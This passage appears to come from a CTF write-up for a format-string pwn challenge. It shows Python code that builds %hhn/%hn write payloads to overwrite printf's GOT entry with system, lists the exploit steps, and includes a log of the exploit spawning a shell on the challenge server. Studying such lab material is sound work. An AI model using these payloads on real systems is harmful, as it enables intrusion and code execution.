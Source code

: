 ```python
def write(what, where):
    what = what & 0xffffff
    hi_byte = what >> 16
    low_word = what & 0xffff

    log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')

    payload = b'%12$'
    payload += str(hi_byte).encode()
    payload += b's%12$hhn'
    payload += b'%12$'
    payload += str(low_word -hi_byte).encode()
    payload += b's%13$hn'
    payload += (32-len(payload))*b' '
    payload += p64(where+2)
    payload += p64(where)
    return payload
```
After sending this payload to the first `printf` call, each of the following `printf` calls will actually call `system` instead of printf. We overwrote it's `GOT` entry.

### Putting it all together

How the final exploit is executed:
1. leak the addreses for future payloads
2. overwrite the return address to return to main
3. after returning to main, use additional `printf` call to overwrite `GOT`.
4. the next `printf` call will actually be a `system` call. But wait, the next '`printf` is again called with our input as it's only argument, so we can simply send `/bin/sh\x00` and `system('/bin/sh')` gets executed.

```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 xplt.py 
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/library_in_c'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to shell.actf.co on port 20201: Done
[*] return address stored at 0x7ffea5436a18
[*] libc at 0x7f80bb20b000
[*] payload to ret2main b'%20$n%64s%21$hn%1799s%22$hn     \x1cjC\xa5\xfe\x7f\x00\x00\x1ajC\xa5\xfe\x7f\x00\x00\x18jC\xa5\xfe\x7f\x00\x00'
[*] returning to main
[*] printing 37 to 6295602 and 912 to 6295600
[*] sending overwrite payload b'%12$37s%12$hhn%12$875s%13$hn    2\x10`\x00\x00\x00\x00\x000\x10`\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
                                                                                               %\xbb\x80\x7f    2\x10And what book would you like to check out?
sh: 1: Your: not found
sh: 2: -: not found
$ ls
flag.txt
library_in_c
library_in_c.c
$ cat flag.txt
```